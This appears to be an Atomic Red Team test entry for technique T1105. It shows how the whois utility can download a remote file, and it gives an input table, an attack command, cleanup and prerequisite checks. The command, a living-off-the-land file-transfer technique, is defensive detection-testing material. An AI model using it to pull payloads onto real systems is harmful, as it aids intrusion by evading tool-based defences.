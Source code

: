 


<br/>
<br/>

## Atomic Test #14 - whois file download
Download a remote file using the whois utility

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** c99a829f-0bb8-4187-b2c6-d47d1df74cab





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_host | Remote hostname or IP address | string | localhost|
| remote_port | Remote port to connect to | integer | 8443|
| output_file | Path of file to save output to | path | /tmp/T1105.whois.out|
| query | Query to send to remote server | string | Hello from Atomic Red Team test T1105|
| timeout | Timeout period before ending process (seconds) | integer | 1|


#### Attack Commands: Run with `sh`! 


```sh
timeout --preserve-status #{timeout} whois -h #{remote_host} -p #{remote_port} "#{query}" > #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```



#### Dependencies:  Run with `sh`!
##### Description: The whois and timeout commands must be present
##### Check Prereq Commands:
```sh
which whois && which timeout
```
##### Get Prereq Commands:
```sh
echo "Please install timeout and the whois package"
```
